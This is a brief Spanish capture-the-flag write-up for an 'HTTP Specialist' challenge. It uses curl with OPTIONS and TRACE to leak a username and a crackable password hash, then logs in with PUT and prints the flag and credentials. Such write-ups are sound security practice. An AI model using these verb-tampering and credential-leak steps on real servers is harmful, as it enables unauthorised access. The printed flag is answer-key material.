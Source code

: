 # Begginer / HTTP Specialist

Buscamos los metodos disponibles para el login

`curl -X 'OPTIONS' https://http-verbs.ctf.cert.unlp.edu.ar/login`

Probamos con TRACE

`curl -X TRACE https://http-verbs.ctf.cert.unlp.edu.ar/login`

Devuelve un texto en base64 y un hash
+ El texto decodificado es el usuario: hugo
+ El hash crackeado es la contraseña: password123

No devuelve nada con un metodo POST, asi que probamos con PUT y obtenemos la flag

`curl -X PUT -d "username=hugo&password=password123" https://http-verbs.ctf.cert.unlp.edu.ar/login`

`flag{TR4C3_Th3_HttP_V3rbs}`
